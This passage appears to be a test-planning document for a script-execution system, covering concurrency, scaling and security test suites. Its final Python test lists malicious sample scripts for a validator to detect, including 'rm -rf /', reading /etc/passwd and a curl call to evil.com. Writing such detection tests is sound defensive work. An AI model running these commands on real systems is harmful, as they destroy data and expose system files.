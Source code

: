 ```yaml
              
              with ThreadPoolExecutor(max_workers=10) as executor:
                  start_time = time.time()
                  futures = [executor.submit(self.execute_script, script) for script in scripts]
                  results = [future.result() for future in futures]
                  execution_time = time.time() - start_time
                  
              assert all(result.success for result in results)
              assert execution_time < 15  # concurrent execution should be faster
      ```
```

### **Scalability Testing**
```yaml
scalability_testing:
  horizontal_scaling:
    multi_instance: "Test scaling across multiple instances"
    load_distribution: "Test load distribution across instances"
    coordination: "Test coordination between scaled instances"
    
  vertical_scaling:
    resource_scaling: "Test scaling with increased resources"
    performance_improvement: "Measure performance improvement with scaling"
    resource_efficiency: "Test resource utilization efficiency"
    
  auto_scaling:
    scale_up_testing: "Test automatic scaling up under load"
    scale_down_testing: "Test automatic scaling down when load decreases"
    scaling_triggers: "Test scaling trigger accuracy and timing"
```

---

## 🔒 **SECURITY TESTING FRAMEWORK**

### **Security Test Suite**
```yaml
security_testing:
  vulnerability_testing:
    code_injection: "Test for code injection vulnerabilities"
    privilege_escalation: "Test for privilege escalation attempts"
    sandbox_escape: "Test sandbox escape attempts"
    data_exfiltration: "Test for data exfiltration vulnerabilities"
    
  penetration_testing:
    automated_scanning: "Automated vulnerability scanning"
    manual_testing: "Manual penetration testing by security experts"
    red_team_exercises: "Red team exercises for comprehensive testing"
    
  security_test_cases:
    malicious_script_detection: |
      ```python
      class SecurityTests:
          def test_malicious_script_detection(self):
              # Test detection of malicious scripts
              malicious_scripts = [
                  "import os; os.system('rm -rf /')",
                  "exec(open('/etc/passwd').read())",
                  "__import__('subprocess').call(['curl', 'evil.com'])"
              ]
              
              for script in malicious_scripts:
                  result = security_validator.validate_script(script)
```
